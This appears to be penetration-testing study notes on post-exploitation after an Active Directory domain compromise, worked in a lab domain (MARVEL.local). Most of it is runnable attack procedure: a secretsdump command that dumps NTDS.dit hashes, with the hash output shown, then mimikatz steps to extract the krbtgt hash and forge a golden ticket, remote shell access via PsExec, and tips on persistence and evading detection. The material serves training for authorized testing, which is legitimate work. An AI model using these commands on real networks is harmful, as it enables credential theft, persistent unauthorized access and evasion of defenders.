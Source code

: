 # We've Compromised the Domain - Now What?

## Post-Domain Compromise Attack Strategy

### Maximize Value for the Client

After compromising a domain, it's crucial to provide comprehensive value to the client by:

- **Identifying Additional Security Issues**: Conduct thorough scans and analyses to uncover other vulnerabilities within the network.

- **Dumping the NTDS.dit and Cracking Passwords**: Extract and analyze the NTDS.dit file to retrieve and crack user passwords, gaining deeper insights into potential security weaknesses.

- **Enumerating Shares for Sensitive Information**: Investigate shared resources to identify and report any sensitive or critical information that may be improperly exposed.

### Plan for Persistent Access

Ensure you have strategies in place to maintain access, even if initial entry points are lost:

- **Contingency for Domain Admin Account Loss**: Plan for scenarios where access to the compromised domain admin account might be revoked.

- **Create a Temporary Domain Admin Account**: Establish a new domain admin account for testing purposes. This should be detectable by the client as part of their security measures. Remember to delete the account after the engagement concludes.

- **Create a Golden Ticket**: Use Kerberos golden ticket attacks to establish long-term access by forging Kerberos tickets for any account, effectively bypassing traditional authentication mechanisms.

### Celebrate Your Success

Once your tasks are complete, take a moment to acknowledge your achievements with a small ritual or celebration. It's important to recognize the hard work and expertise involved in successfully executing these complex tasks.

## Dumping the NTDS.dit

The NTDS.dit file is a critical Active Directory (AD) database that contains:

- **User Information**: Details about user accounts within the domain.
- **Group Information**: Data on groups and their memberships.
- **Security Descriptors**: Permissions and security settings for objects.
- **Password Hashes**: Encrypted password data for domain users.

- To extract NTLM hashes from the NTDS.dit file, you can use the following command: `secretsdump.py MARVEL.local/administrator:'P@$$w0rd!'@192.168.92.155 -just-dc-ntlm`

```
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9157c7f7e38e6af9b89829458ab59066:::
MARVEL.local\fcastle:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\tstark:1104:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\dlieberman:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
MARVEL.local\SQLService:1107:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:b65eb89a4d6b7cdd81ec9ae9ec677e94:::
THEPUNISHER$:1108:aad3b435b51404eeaad3b435b51404ee:edec829a7d22d6d6397c064eb9b7bfe9:::
MICROCHIP$:1109:aad3b435b51404eeaad3b435b51404ee:28f0ac167845d63e25c43d648066aafb:::
[*] Cleaning up...
```

## Golden Ticket Attacks Overview

- **KRBTGT Account Compromise**: Compromising the KRBTGT account (the Kerberos Ticket Granting Ticket account) grants attackers full control over the domain.
- **Unlimited Access**: Attackers can request access to any resource or system within the domain without restrictions.
- **Golden Tickets**: These tickets provide comprehensive, persistent access to every machine and resource on the domain, effectively allowing attackers to operate with complete freedom.

## Golden Ticket Attacks

### Steps to Perform a Golden Ticket Attack

1. **Log in to the Domain Controller:**

   - Ensure `mimikatz` is installed and run it:
     ```bash
     mimikatz.exe
     ```

2. **Enable Debug Privileges:**

   - Execute the following command to enable necessary privileges:
     ```bash
     privilege::debug
     ```

3. **Dump the `krbtgt` Account Hash:**

   - Use `mimikatz` to dump the `krbtgt` account password hash:
     ```bash
     lsadump::lsa /inject /name:krbtgt
     ```
   - Copy the domain SID and the Kerberos Ticket Granting Ticket (TGT) account NTLM hash. Output:

     ```bash
     Domain : MARVEL / S-1-5-21-3387567906-2370868817-662316906

     Primary
         NTLM : 9157c7f7e38e6af9b89829458ab59066
     ```

4. **Generate the Golden Ticket:**

   - Use the copied SID and `krbtgt` NTLM hash to create a Golden Ticket:
     ```bash
     kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-3387567906-2370868817-662316906 /krbtgt:9157c7f7e38e6af9b89829458ab59066 /id:500 /ptt
     ```
     - `/id:500`: Specifies the user ID for the administrator.
     - `/ptt`: Indicates "Pass-The-Ticket," meaning the ticket will be injected directly.

5. **Use the Golden Ticket to Access Other Machines:**

   - Open a command shell using the golden ticket:
     ```bash
     misc::cmd
     ```
   - To verify access, list the contents of a remote machine’s C$ share:

     ```bash
     dir \\THEPUNISHER\c$
     ```

     Output:

     ```
     Volume in drive \\THEPUNISHER\c$ has no label.
     Volume Serial Number is BEFE-B549

     Directory of \\THEPUNISHER\c$

     12/07/2019  02:14 AM    <DIR>          PerfLogs
     07/30/2024  02:25 AM    <DIR>          Program Files
     09/07/2022  08:16 PM    <DIR>          Program Files (x86)
     07/30/2024  03:04 AM    <DIR>          Share
     07/30/2024  03:25 AM    <DIR>          Users
     07/30/2024  02:53 AM    <DIR>          Windows
                    0 File(s)              0 bytes
                    6 Dir(s)  39,140,675,584 bytes free
     ```

6. **Initiate a Remote Command Shell:**
   - Download `PsExec` for remote command execution:
     ```bash
     curl -L -o "C:\Users\Administrator\PSTools.zip" "https://download.sysinternals.com/files/PSTools.zip"
     ```
   - Unzip it after creating a folder:
     ```bash
     mkdir C:\Users\Administrator\PSTools
     tar -xf C:\Users\Administrator\PSTools.zip -C C:\Users\Administrator\PSTools
     ```
   - Use `PsExec` to start a remote command shell:
     ```bash
     PsExec.exe \\THEPUNISHER cmd.exe
     ```

### Alternative: Consider Silver Tickets

- Golden tickets are increasingly being detected. Consider using **Silver Tickets** as a more subtle alternative for persistence (https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket).
